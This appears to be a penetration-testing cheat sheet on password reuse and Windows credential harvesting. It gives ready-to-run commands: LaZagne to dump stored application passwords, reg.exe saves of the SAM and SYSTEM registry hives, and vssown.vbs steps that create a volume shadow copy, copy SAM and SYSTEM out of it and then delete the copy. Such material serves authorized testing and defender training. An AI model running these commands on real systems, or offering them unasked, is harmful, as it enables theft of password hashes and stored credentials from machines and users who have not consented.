 ### Password Reuse

REMEMBER TO REUSE DISCOVERED PASSWORDS!!!!!!!! 

Also, if a password is long and looks like a hash, it probably is

Don't miss the easy exploitation routes!

## Windows Password Hunting

### Dump From Apps

Use Lazagne.exe:  https://github.com/AlessandroZ/LaZagne

```bash
lazagne.exe all
```

### Windows Hashes

Don't pass up the hashes for computer/machine accounts, as they can be used the same way user accounts are, depending on their group memberships.

#### Dumping from Registry

```powershell
##### From registry
##### Requires Admin
reg.exe save HKLM\SAM samoutfile
reg.exe save HKLM\SYSTEM sysoutfile
```

#### Dump from Shadow Copies

```powershell
##### From Shadow Copies
cscript vssown.vbs /list

# Check Volume Shadow Service (VSS) status
cscript vssown.vbs /status
cscript vssown.vbs /mode

# Create a new shadow copy
cscript vssown.vbs /create
# Verify it was created
cscript vssown.vbs /list
# For cleanup, note the Device object value and ID

# Copy the SAM and SYSTEM files from the shadow copy.  Note:  Reference the files by prepending the SAM/SYSTEM path with the Device Object Path, as shown below:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\Temp

# For cleanup, delete the newly created copy
cscript vssown.vbs /delete {YOURCOPYID}

# If the service was stopped originally, stop with this:
cscript vssown.vbs /stop
```
